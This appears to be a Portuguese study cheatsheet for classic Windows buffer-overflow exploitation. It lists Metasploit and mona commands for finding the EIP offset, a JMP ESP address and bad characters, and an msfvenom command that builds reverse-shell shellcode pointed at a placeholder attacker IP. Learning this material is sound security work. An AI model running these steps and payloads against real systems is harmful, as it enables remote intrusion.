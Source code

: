 # Buffer Clássico | Cheatsheet

Esse material foi desenvolvido com a intenção de auxiliar os estudantes que se envolverem com o tema de Buffer Overflow Clássico.

---

Criando um padrão aleátorio de caracteres para a identificação da quantidade de caracteres que são necessários para a manipulação do EIP.

```
msf-pattern_create -l 550
```

Identificando a quantidade necessária para controlar o EIP baseado no padrão gerado acima.

```
msf-pattern_offset -q <EIP>
```

Encontrando uma instrução válida **JMP ESP** na aplicação utilizando o [mona](https://github.com/corelan/mona).

```
!mona jmp -r esp
```

Gerando *bytearray* para os testes dos caracteres que são inválidos para a aplicação.

```
!mona bytearray -cpb "\x00"
```

Comparando o endereço onde estão localizado os caracteres que foram enviados para aplicação com o binário do bytearray que foi gerado no comando acima.

```
!mona compare -f C:\monalogs\aplicacao\bytearray.bin -a <ENDEREÇO>
```

Gerando o shellcode para receber o acesso remoto na máquina.

```
msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows -b "<badchars>" LHOST=<IP DO ATACANTE> LPORT=<PORTA DO ATACANTE> -f c
```
<br />

## Scripts

Scripts           | Link        
------------------|-------------
conecta.py        | Clique aqui 
fuzzing.py        | Clique aqui 
poc.py            | Clique aqui 
eip.py            | Clique aqui 
badchars.py       | Clique aqui 
exploit.py        | Clique aqui 

